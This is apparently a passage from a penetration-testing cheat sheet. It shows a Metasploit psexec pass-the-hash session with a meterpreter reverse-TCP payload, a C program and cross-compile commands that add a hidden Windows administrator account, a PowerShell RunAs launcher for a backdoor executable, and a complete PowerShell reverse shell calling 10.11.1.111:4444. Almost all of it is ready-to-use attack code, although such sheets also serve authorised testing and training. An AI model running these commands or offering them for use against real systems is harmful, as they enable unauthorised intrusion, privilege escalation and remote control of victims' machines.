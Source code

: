 ```bash
rhosts => 10.10.0.100

msf5 exploit(windows/smb/psexec) > set smbuser admin2

smbuser => admin2

msf5 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

smbpass => aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

```

#### Scripts

**Useradd**

```c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile Exploit
i686-w64-mingw32-gcc -o useradd.exe useradd.c

i686-w64-mingw32-gcc 40564.c -o exp.exe -lws2_32 #Win cross compiler
```

**Powershell Run As**

```bash
echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1
```

**Powershell Reverse Shell**

```powershell
Set-ExecutionPolicy Bypass

$client = New-Object System.Net.Sockets.TCPClient('10.11.1.111',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
